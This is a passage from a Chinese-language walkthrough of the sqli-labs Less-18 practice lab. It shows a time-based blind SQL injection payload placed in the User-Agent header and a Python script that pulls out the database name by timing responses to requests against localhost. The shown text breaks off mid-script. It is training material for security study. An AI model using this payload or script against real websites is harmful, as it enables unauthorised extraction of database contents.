 ```
User-Agent: Mozilla/5.0 Firefox/56.0' or if(ascii(substr((select database()),1,1))>97,sleep(5),sleep(0)) or '
```
5秒后返回
![13](/img/2018-08-03/13.png)
盲注当然是写脚本跑啦,python脚本代码如下，稍微修改了一下之前的代码就可以了
```
import requests
import time

txt1 = "Mozilla/5.0 Firefox/56.0' or if(ascii(substr((select database()),"
txt2 = ",1))>="
txt3 = ",1))="
txt4 = ",sleep(2),sleep(0)) or '"
key = {'uname':'admin','passwd':'admin','submit':'Submit'}
url = "http://localhost/sqli-labs/Less-18/"
num11 = 97
num12 = 65
num13 = 48
code = ''
num1 = 0
num2 = 0
num3 = 0
for i in range(1,9):
	payload = txt1+str(i)+txt2+str(num11)+txt4
	headers = {'User-Agent': payload}
	time1 = time.time()
	req = requests.post(url = url,data =key,headers = headers)
	time2 = time.time()
	if(time2 - time1 >=2):
		num1 = 1
		
	payload = txt1+str(i)+txt2+str(num12)+txt4
	headers = {'User-Agent': payload}
	time1 = time.time()
	req = requests.post(url = url,data =key,headers = headers)
	time2 = time.time()
	if(time2 - time1 >=2):
```